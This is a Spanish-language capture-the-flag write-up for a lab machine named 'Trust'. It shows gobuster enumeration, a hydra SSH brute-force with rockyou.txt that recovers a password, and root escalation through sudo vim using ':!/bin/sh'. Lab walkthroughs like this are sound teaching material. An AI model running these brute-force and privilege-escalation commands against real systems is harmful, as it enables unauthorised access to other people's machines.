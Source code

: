 # WriteUp Maquina Trust

Primero haremos un Ping a la IP para verificar que haya conexion

<h2><b>Escaneo de Puertos</b></h2>
Iniciamos con un escaneo básico de puertos y encontramos los siguientes servicios abiertos:
<br>
<br>
<img src="https://github.com/user-attachments/assets/3f91c7d4-234b-4e49-a9d8-9fcaf6f60ebf">
<br>
<br>
<h2><b>Enumeración de Directorios</b></h2>
Utilizamos gobuster para enumerar directorios en el puerto 80:
<br>
<br>
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 -x html,php,txt,php.bak
<br>
<br>
<img src="https://github.com/user-attachments/assets/2361a103-d894-4f12-b8cf-09f2ff44cc11">
<br>
<br>
<h2><b>Resultado</b></h2>
Encontramos un archivo interesante:
<br>
<br>
/secret.php
<br>
<br>
Accedemos a " http://172.18.0.2/secret.php ", pero solo encontramos un mensaje que dice "HOLA MARIO". Sin más información útil, decidimos explorar otras opciones.
<br>
<br>
<img src="https://github.com/user-attachments/assets/2f3034b3-d3b6-4340-9b76-267ee5e5a933">
<br>
<br>
<h2><b>Fuerza Bruta en SSH</b></h2>
Dado que encontramos un usuario potencial ("mario") en /secret.php, procedemos a un ataque de fuerza bruta en el puerto 22 (SSH) para descubrir la contraseña:
<br>
<br>
hydra  -l mario -P /home/kali/Downloads/rockyou.txt ssh://172.18.0.2
<br>
<br>
Credenciales encontradas:
<br>
Usuario: mario
<br>
Contraseña: chocolate
<br>
<br>
<h2><b>Acceso al Sistema</b></h2>
Usamos las credenciales obtenidas para iniciar sesión por SSH:
<br>
<br>
ssh mario@172.18.0.2
<br>
<br>
<h2><b>Escalada de Privilegios</b></h2>
Al verificar los privilegios de sudo con sudo -l, observamos lo siguiente:
<br>
<br>
<img src="https://github.com/user-attachments/assets/dacc3017-5890-4356-ab6a-bc0bed7de500">
<br>
<br>
Esto indica que podemos usar vim como root. Para explotar este permiso, consultamos GTFOBins.
<br>
<br>
<h2><b>Comando para obtener acceso root:</b></h2>
sudo vim -c ':!/bin/sh'
<br>
<br>
Al ejecutar este comando, logramos escalar privilegios y obtener acceso root.
<br>
<br>
<img src="https://github.com/user-attachments/assets/299a427e-5260-4673-9734-7f0c61668cef">
<br>
<br>
¡Y eso es todo, ya somos root!






